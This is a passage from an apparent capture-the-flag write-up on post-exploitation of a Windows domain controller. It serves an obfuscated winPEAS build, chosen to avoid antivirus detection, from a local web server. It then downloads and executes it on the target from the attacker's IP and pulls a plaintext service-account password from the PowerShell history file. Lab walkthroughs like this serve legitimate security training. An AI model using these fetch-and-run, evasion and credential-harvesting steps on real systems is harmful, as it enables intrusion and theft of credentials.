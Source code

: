 Next, we'll do some basic enumeration with [winPEAS](https://github.com/carlospolop/PEASS-ng). Download the latest release of `winPEASx64_ofs.exe` to your PC. We're going to use the obfuscated version so we can get around any weirdness with virus detection. Put that into a folder where it can be all on its own somewhere on your computer.

Now, to get it to our system, we will use python's `http.server` module. Run `ifconfig` to get your IP address on the VPN (it should start with `10.`). Next, navigate to the folder where you downloaded winPEAS and run this command:

```bash
python -m http.server
```
**_Note:_** This will expose all of the files in the folder and any sub-folders, so make sure you're not in a folder with anything secret or important.

Now we'll get it to the box. On the PowerShell session, run these commands 

```powershell
wget -UseBasicParsing http://10.10.16.31:8000/winPEASx64_ofs.exe -o file.exe
./file.exe
```

This should launch winPEAS.

We can see pretty plainly here that our computer name is `DC01`. Remember that because we'll use it later. Also, this section is interesting

```
╔══════════╣ PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.17763.1
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    PS history size: 434B
```

Running

```powershell
cat C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

gives us the contents of that file, which are

```powershell
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
